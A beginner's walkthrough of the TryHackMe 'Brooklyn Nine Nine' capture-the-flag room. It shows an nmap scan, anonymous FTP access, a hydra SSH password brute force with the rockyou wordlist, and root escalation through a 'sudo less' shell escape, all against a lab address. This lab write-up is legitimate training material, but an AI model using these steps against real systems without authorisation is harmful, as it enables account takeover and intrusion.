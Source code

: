 # TryHackMe : Brooklyn Nine Nine CTF Walkthrough

![Brooklyn](brooklyn.png)

</br>

So, Hey Guys This is Vikas Anand. This is my first ever CTF Walkthrough.

</br>

This CTF is from TryHackMe ["Brooklyn_Nine_Nine"](https://tryhackme.com/room/brooklynninenine) So join the Room and let's Hack the CTF cheers :)

</br>
First Scan the Machine with Nmap :

`
sudo nmap -sS -A 10.10.233.242
`


![Nmap](nmap.png)

Here We can see 3 Ports Open :

1. 21 - ftp
2. 22 - ssh
3. 80 - http

After Enumerating ftp port we can see that it has anynomous login allowed. We, can simply login it through ftp 

`
ftp 10.10.233.242 21
`

*Name : anynomous*</br>
*pass : anynomous*

![ftp](ftp.png)

We can clearly see we have found a file named "note_to_jake.txt". Get the file in you system using _get_ command.

Now lets find What's inside it :

`cat note_to_jake.txt`

![note_to_jake.txt](note_to_jake.png)

Here we can find there are 3 users :

* Any
* jake
* holt


Where, jake password is weak. Let's Bruteforce jake password using _hydra_ with port ssh open :

` hydra -l jake -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.233.242`

![hydra](hydra.png)

We, Successfully find the jake password. Let's dig into jake account using ssh

`ssh jake@10.10.233.242`

We find 3 users in home directory.

![home](home.png)

After Enumerating we find _user.txt_ flag in holt account.

![user](user.png)

Now we have to go into root account for this we have to esclate our privilages.

![sudo](sudo.png)

We can see _less_ is vulnerable we can go into root using _less_ command.

`sudo less user.txt`

`!/bin/sh`

Successfully We get root ! Now Let's find _root_ flag.

![root](root.png)

Awsoome we find our both the flag .

Thanks for reading the entire Walkthrough.







